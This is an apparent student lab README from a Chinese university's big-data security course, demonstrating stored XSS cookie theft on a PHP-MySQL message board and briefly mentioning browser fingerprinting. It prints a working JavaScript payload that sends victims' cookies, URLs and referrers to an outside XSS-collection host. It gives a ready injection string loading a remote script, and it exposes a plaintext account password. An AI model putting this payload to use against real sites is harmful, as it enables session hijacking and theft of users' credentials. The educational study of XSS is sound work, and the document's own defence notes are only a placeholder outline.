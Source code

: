 # 大数据安全实验三提高部分

BUPT-SCSS第三次大数据安全实验演示demo，包含XSS和在线追踪两个部分。

## 新的Cookie窃取方法

### 简述

小组经过调研，对XSS攻击技术进行了探究，并制作Demo进行演示。

本Demo是使用php-mysql架构搭建的典型的Web留言板应用，留言板具有注册、登录、对指定用户留言、查看其他用户给自己的留言等功能。如果后端对用户输入的留言内容过滤不严，就容易出现XSS漏洞。

![](./pics/Screen Shot 2020-11-11 at 11.36.45.png)

XSS的payload代码放置在公网XSS平台上，代码具有窃取Headers、Cookies等功能。

```javascript
(function(){(new Image()).src='https://xsshs.cn/xss.php?do=api&id=pou2&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if('1'==1){keep=new Image();keep.src='https://xsshs.cn/xss.php?do=keepsession&id=pou2&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
var x=new Image();
try
{
var myopener='';
myopener=window.opener && window.opener.location ? window.opener.location : '';
}
catch(err)
{
}
x.src='{$xssite}/?do=api&act=r&id={$pid}&diy[location]='+escape(document.location)+'&diy[toplocation]='+escape(top.document.location)+'&diy[cookie]='+escape

(document.cookie)+'&diy[opener]='+escape(myopener)+'&diy[referrer]='+escape(document.referrer)+'&diy[title]='+escape(document.title);
```

使用只需插入如下语句

```
</textarea>'"><script src=//xs.sb/pou2></script>
```

### XSS基本原理概述

> 这里懒得写了  凑字数  加油
>
> 可以如此安排内容：
>
> XSS基本原理
>
> XSS的分类（反射型、存储型、DOM型），本实验用到了存储型XSS攻击方式
>
> XSS攻击的流程（反射型一般是诱导受害者点击URL，存储型和DOM型会在用户站点长期存在，访问即受害）
>
> XSS攻击的防御（前端过滤、后端编码、服务器端设置CSP）（针对Cookie的窃取，使用HttpOnly防护）

### 环境配置

docker与镜像版本

```
# docker --version
Docker version 19.03.13, build 4484c46d9d
# mysql --version
mysql  Ver 14.14 Distrib 5.7.32, for Linux (x86_64) using  EditLine wrapper
```





### 演示——准备工作

提前在留言板注册了用户c1、`c2`，可看到他们之间的留言正常显示

<img src="./pics/Screen Shot 2020-11-11 at 11.52.37.png" alt="Screen Shot 2020-11-11 at 11.52.37" style="zoom:50%;" />

![Screen Shot 2020-11-11 at 11.54.19](./pics/Screen Shot 2020-11-11 at 11.54.19.png)

查看浏览器Cookie，可以看到PHP的session，以及我们提前设置的Cookie。这个Cookie是没有HttpOnly保护的。

![Screen Shot 2020-11-11 at 11.54.56](/Users/raidriarb/Library/Application Support/typora-user-images/Screen Shot 2020-11-11 at 11.54.56.png)

在XSS在线平台`https://xs.sb`注册一个账号，建立XSS项目设置我们需要执行的payload，并保存平台生成的链接。

> 用户名：Arklight
>
> 密码：1085455474
>
> 到时候记得自己注册一个

![Screen Shot 2020-11-11 at 11.58.15](./pics/Screen Shot 2020-11-11 at 11.58.15.png)

## 在线追踪实验

使用CanvasFP/WebGLFP/AudioFP进行实验
